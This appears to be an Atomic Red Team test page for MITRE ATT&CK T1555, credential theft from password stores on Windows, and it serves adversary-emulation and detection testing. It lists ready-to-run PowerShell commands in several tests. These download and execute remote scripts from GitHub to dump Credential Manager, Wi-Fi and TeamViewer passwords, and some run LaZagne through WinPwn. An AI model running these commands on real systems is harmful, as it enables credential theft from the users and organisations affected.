 # T1555 - Credentials from Password Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)
<blockquote>

Adversaries may search for common password storage locations to obtain user credentials.(Citation: F-Secure The Dukes) Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications and services that store passwords to make them easier for users to manage and maintain, such as password managers and cloud secrets vaults. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)

- [Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]](#atomic-test-2---dump-credentials-from-windows-credential-manager-with-powershell-windows-credentials)

- [Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]](#atomic-test-3---dump-credentials-from-windows-credential-manager-with-powershell-web-credentials)

- [Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]](#atomic-test-4---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-windows-credentials)

- [Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]](#atomic-test-5---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-web-credentials)

- [Atomic Test #6 - WinPwn - Loot local Credentials - lazagne](#atomic-test-6---winpwn---loot-local-credentials---lazagne)

- [Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials](#atomic-test-7---winpwn---loot-local-credentials---wifi-credentials)

- [Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords](#atomic-test-8---winpwn---loot-local-credentials---decrypt-teamviewer-passwords)


<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA
This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 234f9b7c-b53d-4f32-897b-b880a6c9ea7b






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  $process = "winword"
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** c89becbe-1758-4e7d-a0f4-97d2188a23e3






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/TriggerMan-S/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
```






<br/>
<br/>

## Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** 8fd5a296-6772-4766-9991-ff4e92af7240






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/TriggerMan-S/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
```






<br/>
<br/>

## Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]
This module will enumerate credentials stored in Windows Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 36753ded-e5c4-4eb5-bc3c-e8fba236878d






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Windows Credentials" /all
```






<br/>
<br/>

## Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]
This module will enumerate credentials stored in Web Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** bc071188-459f-44d5-901a-f8f2625b2d2e






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Web Credentials" /all
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - Loot local Credentials - lazagne
The [LaZagne project](https://github.com/AlessandroZ/LaZagne) is an open source application used to retrieve lots of passwords stored on a local computer. 
Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). 
This tool has been developed for the purpose of finding these passwords for the most commonly-used software

**Supported Platforms:** Windows


**auto_generated_guid:** 079ee2e9-6f16-47ca-a635-14efcd994118






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
lazagnemodule -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials
Loot local Credentials - Wifi Credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** afe369c2-b42e-447f-98a3-fb1f4e2b8552






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
wificreds -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords
Loot local Credentials - Decrypt Teamviewer Passwords technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** db965264-3117-4bad-b7b7-2523b7856b92






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
decryptteamviewer -consoleoutput -noninteractive
```






<br/>
